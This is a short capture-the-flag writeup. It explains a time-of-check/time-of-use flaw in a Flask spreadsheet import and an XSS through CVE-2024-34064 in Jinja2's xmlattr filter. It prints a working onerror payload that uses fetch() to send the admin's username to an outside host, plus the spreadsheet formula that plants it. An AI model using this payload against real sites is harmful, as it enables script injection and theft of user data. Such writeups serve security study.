 # Writeup

```py
if type(excel.evaluate(f'Sheet1!C{row}')) is not int:
    flash(f"Sheet1!C{row}, Rank must be an integer")
    return redirect(request.url)

excel.evaluate(f'Sheet1!E{row}')
excel.set_value(f'Sheet1!E{row}', "Imported")

name = excel.evaluate(f'Sheet1!A{row}')
time = excel.evaluate(f'Sheet1!B{row}')
rank = excel.evaluate(f'Sheet1!C{row}')
country = excel.evaluate(f'Sheet1!D{row}')
```

Rank is validated but then accessed directly again. As Column E is changed we can make the Cell change depending on this field. So first it's an integer then after "Imported" is written into it it changes to our payload which is then used to build the rank style:

```py
def style(rank):
    return {f"rank-{rank}": "1", "src": f"/static/rank-{rank}.png", "width": "25px", "height": "25px"}
```

This is then used in the Jinja2 template to style the first 3 ranks.

```html
<img {{ style(result.rank)|xmlattr }}  alt="rank-img"/></td>
```

Due to CVE-2024-34064 we can manipulate the style in a way that we get XSS and can extract the Username of the admin from the page.

rank has to be something like: `/onerror=fetch('http://schni.at?u='+document.getElementsByTagName('li')[0].attributes.value.nodeValue)/` which is achieved to make the C2 cell of the example sheet like this: `=IF(ISBLANK(E2);1;"/onerror=fetch('http://schni.at?u='+document.getElementsByTagName('li')[0].attributes.value.nodeValue)/")`.